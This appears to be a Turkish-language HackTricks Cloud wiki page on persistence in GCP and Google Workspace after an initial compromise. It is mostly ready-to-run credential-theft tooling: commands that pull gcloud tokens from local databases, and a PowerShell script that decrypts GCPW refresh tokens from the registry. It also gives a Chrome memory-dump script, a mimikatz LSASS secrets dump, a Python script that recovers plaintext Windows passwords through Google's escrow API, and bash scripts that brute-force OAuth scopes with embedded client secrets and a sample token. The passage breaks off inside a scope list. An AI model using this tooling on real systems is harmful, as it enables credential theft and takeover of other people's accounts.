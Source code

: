 # GCP - Non-svc Persistance

{% hint style="success" %}


paLearn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Bunlar, bir şekilde bazı GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdiğinizde yararlı tekniklerdir.

## Token Hijacking

### Kimlik Doğrulanmış Kullanıcı Token'ları

Bir kullanıcının **mevcut token'ını** almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada **bu tokeni gcloud kullanarak doğrudan nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**Yeni bir erişim tokeni oluşturmak için** detayları almak üzere çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ayrıca **`$HOME/.config/gcloud/application_default_credentials.json`** ve **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** dosyalarında refresh token'ları bulmak da mümkündür.

Yeni bir erişim token'ı almak için **refresh token**, istemci kimliği ve istemci sırrı ile şunu çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Refresh tokenların geçerliliği **Admin** > **Security** > **Google Cloud session control** altında yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak süresiz olarak ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

`gcloud auth login` gibi bir şey kullanıldığında kimlik doğrulama akışı, tarayıcıda bir istem açar ve tüm kapsamları kabul ettikten sonra tarayıcı, aracın açtığı http portuna bu gibi bir istek gönderir:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Sonra, gcloud, bazı sabit kodlanmış `client_id` (`32555940559.apps.googleusercontent.com`) ve **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) ile **son refresh token verilerini** almak için durumu ve kodu kullanacaktır.

{% hint style="danger" %}
localhost ile iletişimin HTTP üzerinden olduğunu unutmayın, bu nedenle bir refresh token almak için verileri yakalamak mümkündür, ancak bu veri yalnızca 1 kez geçerlidir, bu yüzden bu işe yaramaz, refresh token'ı dosyadan okumak daha kolaydır.
{% endhint %}

### OAuth Kapsamları

Tüm Google kapsamlarını [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) adresinde bulabilirsiniz veya bunları çalıştırarak alabilirsiniz:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Bu betikle **`gcloud`**'un kimlik doğrulamak için kullandığı uygulamanın hangi kapsamları destekleyebileceğini görmek mümkündür:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Bu uygulamanın bu kapsamları desteklediği kontrol edildi:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
ilginçtir ki, bu uygulamanın **`drive`** kapsamını desteklemesi, bir saldırganın kullanıcıyı bu kapsamla bir token oluşturması için zorlaması durumunda, kullanıcının GCP'den Workspace'e geçiş yapmasına olanak tanıyabilir.

**Bunu nasıl** [**istismar edeceğinizi buradan kontrol edin**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Hizmet Hesapları

Kimlik doğrulama yapılmış kullanıcılarla olduğu gibi, eğer bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz**, genellikle **istediğiniz kadar erişim sağlayabilirsiniz**.\
Ancak, bir hizmet hesabının **OAuth token'ını çalarsanız** bu daha da ilginç olabilir, çünkü, varsayılan olarak bu token'lar sadece bir saat boyunca geçerli olsa da, eğer **kurban özel API anahtarını silerse, OAuth token'ı süresi dolana kadar geçerli kalacaktır**.

### Metadata

Açıkça, GCP ortamında çalışan bir makinenin içindeyseniz, **o makineye bağlı hizmet hesabına erişim sağlayabileceksiniz, bu da metadata uç noktasına ulaşarak mümkündür** (bu uç noktada erişebileceğiniz OAuth token'larının genellikle kapsamlarla kısıtlandığını unutmayın).

### Çözüm Önerileri

Bu teknikler için bazı çözüm önerileri [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## GCPW - Google Credential Provider for Windows

Bu, Google Workspaces'ın sağladığı tek oturum açma sistemidir, böylece kullanıcılar **Workspace kimlik bilgilerini kullanarak Windows PC'lerine giriş yapabilirler**. Ayrıca, bu, Google Workspace'e erişim sağlamak için bazı yerlerde token'ları saklayacaktır.

GCPW'nin bir cihazda kurulu olup olmadığını kontrol etmek için, aşağıdaki işlemin var olup olmadığını veya aşağıdaki kayıt defteri anahtarlarının var olup olmadığını kontrol edebilirsiniz:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
Aslında **`HKLM:\SOFTWARE\Google\GCPW\Users`** içinde **giriş yapmaya izin verilen alan adlarını** `domains_allowed` anahtarında bulmak mümkündür ve alt anahtarlarda kullanıcı hakkında e-posta, resim, kullanıcı adı, token ömrü gibi bilgiler bulunabilir...

Ve **`HKCU:\SOFTWARE\Google\Accounts`** içinde kullanıcının e-posta adresine ve kullanıcı yakın zamanda giriş yaptıysa şifrelenmiş **refresh token**'a erişmek mümkündür.

### GCPW - Kayıt Defteri Refresh Token'ları

Kayıt defteri **`HKCU:\SOFTWARE\Google\Accounts`** içinde şifrelenmiş **`refresh_token`** içeren bazı hesaplar bulmak mümkün olabilir. **`ProtectedData.Unprotect`** yöntemi bunu kolayca çözebilir.

<details>

<summary>Get <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> data and decrypt refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Örnek çıktı:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

[**Bu videoda**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) açıklandığı gibi, eğer kayıtta token bulamazsanız, **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** değerini değiştirmek (veya silmek) mümkündür ve kullanıcı bilgisayara eriştiğinde tekrar giriş yapması gerekecek ve **token önceki kayıtta saklanacaktır**.

### GCPW - Disk Yenileme Token'ları

Dosya **`%LocalAppData%\Google\Chrome\User Data\Local State`** kullanıcının **Google Chrome profilleri** içindeki **`refresh_tokens`**'ı şifrelemek için anahtarı saklar:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Bu token'lara şifrelenmemiş şekilde erişen bazı **C# kodu** [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) içinde bulunabilir.

Ayrıca, şifreleme bu kodda bulunabilir: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

AESGCM'nin kullanıldığı gözlemlenebilir, şifrelenmiş token bir **sürüm** ile başlar (**`v10`** şu anda), ardından [**12B nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) gelir ve ardından **şifreli metin** ile son bir **16B mac** gelir.

### GCPW - Süreç Belleğinden Token'ları Dökme

Aşağıdaki script, `procdump` kullanarak her **Chrome** sürecini **dökme**, **string'leri** çıkartma ve ardından **erişim ve yenileme token'ları** ile ilgili string'leri **arama** için kullanılabilir.

**Deneyimlerime göre, Chrome süreçlerini dökme veya hatta `gcpw_extension.exe` sürecini bulamadı.**

<details>

<summary>Chrome süreçlerini dök ve token'ları ara</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\path\to\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\path\to\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\ChromeDumps"
$targetString = "ya29" # "1//" for refresh_tokens

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for the target string in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$asciiStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_ascii_strings.txt"
$unicodeStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_unicode_strings.txt"

Write-Output "Extracting ASCII strings from $dumpFile"
& $stringsPath $dumpFile > $asciiStringsOutputFile

Write-Output "Extracting UTF-16 strings from $dumpFile"
& $stringsPath -u $dumpFile > $unicodeStringsOutputFile

Write-Output "Searching for '$targetString' in $asciiStringsOutputFile"
Select-String -Path $asciiStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}

Write-Output "Searching for '$targetString' in $unicodeStringsOutputFile"
Select-String -Path $unicodeStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}
}
```
</details>

### GCPW - Açık metin şifresini geri kazanma

GCPW'yi açık metin şifresini geri kazanmak için kötüye kullanmak, **mimikatz** kullanarak **LSASS**'dan şifrelenmiş şifreyi dökmek mümkündür:
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Sonra, resimdeki gibi `Chrome-GCPW-<sid>` gibi gizli anahtarı arayın:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Ardından, `https://www.google.com/accounts/OAuthLogin` kapsamına sahip bir **erişim belirteci** ile şifreyi şifrelemek için özel anahtarı talep etmek mümkündür:

<details>

<summary>Erişim belirteci, şifreli şifre ve kaynak kimliği verildiğinde şifreyi düz metin olarak elde etmek için script</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Bunun ana bileşenlerini Chromium kaynak kodunda bulmak mümkündür:

* API alanı: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API uç noktası: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)
*

### GCPW - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrı ile erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Kapsamlar

Varsayılan olarak GCPW, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları zorlamak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
Ayrıca, Chromium kaynak kodunu kontrol ederek [**bu dosyayı bulmak mümkündür**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), bu dosya **daha önce zorla elde edilen listede görünmeyen** **diğer kapsamları** içermektedir. Bu nedenle, bu ek kapsamların varsayılması mümkündür:

<details>

<summary>Ek kapsamlar</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

En ilginç olanı muhtemelen:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Ancak, bu kapsamı gmail'e erişmek veya grupları listelemek için kullanmayı denedim ve işe yaramadı, bu yüzden hala ne kadar faydalı olduğunu bilmiyorum.

**Tüm bu kapsamlarla bir erişim belirteci alın**:

<details>

<summary>Tüm kapsamlarla refresh_token'dan erişim belirteci oluşturmak için Bash betiği</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
